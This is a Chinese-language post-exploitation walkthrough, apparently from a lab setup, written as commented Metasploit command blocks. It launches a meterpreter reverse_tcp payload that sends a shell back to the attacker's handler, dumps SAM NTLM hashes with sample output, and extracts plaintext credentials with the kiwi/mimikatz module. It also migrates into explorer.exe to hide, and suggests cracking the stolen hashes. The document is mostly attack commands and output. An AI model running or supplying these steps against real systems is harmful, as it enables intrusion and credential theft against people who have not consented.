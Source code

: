 ```bash
use 0
# 默认载荷使用windows/x64/meterpreter/reverse_tcp
# meterpreter met + erpreter ，metasploit 的 interpreter，msf的解释器
# 就是载荷，就是随着漏洞发过去的内存马
# 是payload，从我这传到目标上
# 是后门，在目标上执行，把shell弹给我
# meterpreter的reverse_tcp在内存中运行
set rhosts 172.20.0.7
show options
# meterpreter/reverse_tcp，目标的shell弹回来，目标客户端主动连我们服务端
run
# Started reverse TCP handler on 172.20.0.4:4444 
```

# 通过meterpreter获取SAM ntlm 密码

```bash
hashdump # 获取密码
# 从SAM文件中获取用户/密码
# 获取NTLM Hash值（现在常用）
# C:\Windows\System32\config\SAM
# 能拿到说明meterpreter是system权限
# Administrator:500:aad3b435b51404eeaad3b435b51404ee:531b3ca954d0e442e64a5815b6794c32:::
# Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
# 用户名：SID:别的hash:NTLM hash:::
getuid
# Server username: NT AUTHORITY\SYSTEM
# NTLM 是new technology lan manager，是Windows登录认证协议
# 拿到后1）撞库查询2）社工暴破3）枚举暴破
# https://www.cmd5.com
```

# meterpreter加载kiwi模块，获取明文密码

```bash
load kiwi
# kiwi是minikatz的msf封装版
# 是个后渗透模块
# 作者叫kiwi
# 只要用户输入的密码还保留在内存中，就能获取明文密码
creds_all
# credential 凭证
```

# meterpreter内存马进行进程迁移

```bash
getuid
# 查看当前用户权限
ps aux
# 显示当前所有进程
# 迁移的进程要1）够隐蔽，最好是系统进程2）够稳定，是稳定的系统进程3）权限够，通常喜欢administrator权限的
ps -S "explorer.exe" 
# search
migrate 2700
# 迁移
getuid
```
